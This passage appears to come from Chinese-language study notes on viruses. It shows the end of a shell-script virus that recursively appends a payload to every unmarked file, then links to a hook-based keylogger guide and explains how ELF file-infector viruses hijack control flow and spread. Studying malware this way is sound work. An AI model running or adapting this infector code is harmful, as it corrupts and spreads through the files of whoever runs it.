 ```sh
	echo $(ls $pwd) >> $path/.bak/filelist_log
	for file_ in $(ls $pwd); do
		# echo $file_
		if test -d $file_
			then
				echo "$file_ is dir"
				if $(cat $file_ |grep -q ".bak")
				then
					echo "It's Magic bak"
				else
					cd ./$file_
					fuckfile
					cd ..
				fi
			else
				if $(cat $file_ |grep -q "MagicFuck")
				then
					echo "It has Magic"
				else 
					cat $tmp >> $file_
			fi
		fi
	done
}

fuckfile
rm $tmp

```





通过劫持hook实现键盘记录器：https://blog.csdn.net/simon798/article/details/98848050



### 二进制文件病毒：binary file virus 

### 

该病毒以寄生方式挂接到二进制可执行文件（不管该文件能否直接执行）。二进制可执行文件包含可由 CPU 直接解释的二进制指令。这些类型的病毒通常称为文件感染型病毒。



#### ELF病毒原理

每个可执行文件都有一个控制流，即执行路径，而elf病毒的首要目标是劫持控制流，暂时改变程序的执行路径来执行寄生代码。
寄生代码通常负责设置钩子来劫持函数，还会将自身代码复制到没有感染病毒的程序中。一旦寄生代码执行完成，就会跳到原始的入口点或正常的执行路径上，这样就使得病毒不容易被发现。
另外，一个真正的ELF病毒应该具有下面的特点：

- 能感染可执行文件
- 寄生代码必须是独立的，能够在物理上寄存与另一个程序内部，不能依赖动态链接器链接外部的库。独立于其他文件、代码库、程序等。
- 被感染的宿主文件能继续执行并传播病毒

